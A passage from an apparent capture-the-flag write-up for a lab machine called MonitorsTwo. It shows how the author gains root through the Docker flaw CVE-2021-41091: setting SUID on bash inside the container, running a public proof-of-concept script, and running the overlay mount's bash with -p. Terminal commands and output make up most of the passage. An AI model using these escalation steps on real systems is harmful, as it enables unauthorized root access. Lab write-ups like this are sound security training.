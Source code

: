 ```bash
CISO
Monitor Two
Security Team
```

[CVE-2021-41091](https://security.snyk.io/vuln/SNYK-SLES150-DOCKER-2661076) is a vulnerability in the Docker engine (v20.10.9) that allows unprivileged users to execute programs with incorrect permissions within the container. This vulnerability occurs when the UID of the user on the host matches the UID of the file owner within the container.

Found a [PoC](https://github.com/UncleJ4ck/CVE-2021-41091) for the CVE on GitHub. To get root privileges it's necessary to set the `SUID` bit on `/bin/bash` before executing the exploit script.

> [!tip] Remember
> Need to set the SUID bit on the docker container before executing the exploit

Running the exploit script tells us that the `/var/lib/docker/overlay2/c41d5854e....a372cb2f1/merged` is vulnerable to CVE-2021-41091, but it doesn't give a root shell.

{{< highlight bash "hl_lines=2 15-18" >}}

(remote) marcus@monitorstwo:/tmp/abraxas$ bash privEsc.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit

{{< /highlight >}}

To get a privileged shell, need to navigate to the vulnerable mount and execute its bash binary in privileged mode. Doing so will give Marcus effective root permissions.

```bash
(remote) marcus@monitorstwo:/tmp/abraxas$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin   dev            etc   lib    media  opt   root  sbin  sys  usr
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   tmp  var
(remote) marcus@monitorstwo:/tmp/abraxas$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
(remote) marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
(remote) root@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
(remote) root@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged# cd /root
(remote) root@monitorstwo:/root# ls -al root.txt
-rw-r-----  1 root root   33 May 28 00:26 root.txt
(remote) root@monitorstwo:/root#
```